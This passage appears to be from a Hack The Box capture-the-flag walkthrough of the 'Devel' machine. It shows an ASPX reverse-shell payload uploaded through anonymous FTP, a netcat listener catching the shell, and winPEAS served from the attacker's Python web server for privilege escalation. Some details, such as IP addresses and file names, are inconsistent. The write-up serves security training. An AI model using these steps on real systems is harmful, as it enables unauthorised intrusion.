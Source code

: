 ``` Bash
Saved as: wrs2.aspx
```

Put Payload into Web Server Directory which is FTP

``` Bash
┌─[atom@atom-vmwarevirtualplatform]─[~/htb/machines/devil]
└──╼ $ftp 10.129.102.193
Connected to 10.129.102.193.
220 Microsoft FTP Service
Name (10.129.102.193:atom): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> put wrs2.aspx 
local: wrs2.aspx remote: cmdasp.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
38146 bytes sent in 0.00 secs (42.4987 MB/s)
ftp>
```
## Initial Foot Hold
{{< img src="/images/hackthebox/devel/6.png" alt="image alt" width="1000px"  position="center" >}}

``` Bash 
┌─[atom@atom-vmwarevirtualplatform]─[~/htb/machines/devil]
└──_ $nc -lvnp 8989
listening on [any] 8989 ...
connect to [10.10.14.2] from (UNKNOWN) [10.129.96.188] 49160
whoami
iis apppool\web
PS C:\windows\system32\inetsrv>

```

## Priviledge Escalation    
we got initial foot hold right now we are at low priviledge user lets we try to esclate Higher Priviledge  for that we use ```winPEASE.bat``` file host is on your attacker computer using python3 web server command 

``` Bash
┌─[_]─[atom@atom-vmwarevirtualplatform]─[~/htb/machines/devil]
└──_ $python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.5 - - [16/Jun/2022 07:58:05] "GET /winPEASE.bat HTTP/1.1" 200 -
10.10.14.5 - - [16/Jun/2022 07:58:42] "GET / HTTP/1.1" 200 -
10.10.14.5 - - [16/Jun/2022 07:58:42] code 404, message File not found
10.10.14.5 - - [16/Jun/2022 07:58:42] "GET /favicon.ico HTTP/1.1" 404 -
```
Using Powershell command, get the winPEASE.bat file into the machine that we gained foot hold machine.
